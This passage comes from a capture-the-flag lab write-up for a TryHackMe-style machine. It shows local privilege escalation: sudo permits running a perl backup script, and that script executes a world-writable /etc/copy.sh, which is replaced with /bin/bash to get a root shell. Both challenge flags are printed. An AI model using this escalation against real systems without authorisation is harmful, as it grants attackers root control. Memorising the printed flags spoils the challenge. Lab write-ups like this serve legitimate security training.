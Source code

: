 
## 🧍 User Privilege Escalation

- User flag is tutorial. Let's move to root.

  ```
  find / -name user.txt 2>/dev/null
  /home/itguy/user.txt
  
  cat /home/itguy/user.txt
  THM{63e5bce9271952aad1113b6f1ac28a07}
  ```

---

## 👑 Root Privilege Escalation

- Root flag was also pretty easy ngl, I did `sudo -l` first as always and found that I can run perl as sudo.

  ```
  www-data@THM-Chal:/$ sudo -l
  Matching Defaults entries for www-data on THM-Chal:
      env_reset, mail_badpass,
      secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
  
  User www-data may run the following commands on THM-Chal:
      (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
  ```
  
- Then I checked `/backup.pl` which executes `/etc/copy.sh`. So if I have permission to write to `/etc/copy.sh` I can simply modify it to whatever I want and the run it with perl. That's exactly what I did, check for permissions and then change the code.

  ```
  cat /home/itguy/backup.pl
  #!/usr/bin/perl
  
  system("sh", "/etc/copy.sh");

  ls -l /etc/copy.sh
  -rw-r--rwx 1 root root
  ```
  
- In regards to editing `/etc/copy.sh` just delete everything inside and replace it with `/bin/bash` then run the perl command `/usr/bin/perl /home/itguy/backup.pl` and you'll have root.

  ```
  nano /etc/copy.sh
  /bin/bash

  /usr/bin/perl /home/itguy/backup.pl

  root@THM-Chal:/# whoami
  root
  
  root@THM-Chal:/# id  
  uid=0(root) gid=0(root) groups=0(root)
  
  root@THM-Chal:/# cat /root/root.txt
  THM{6637f41d0177b6f37cb20d775124699f}
  ```

---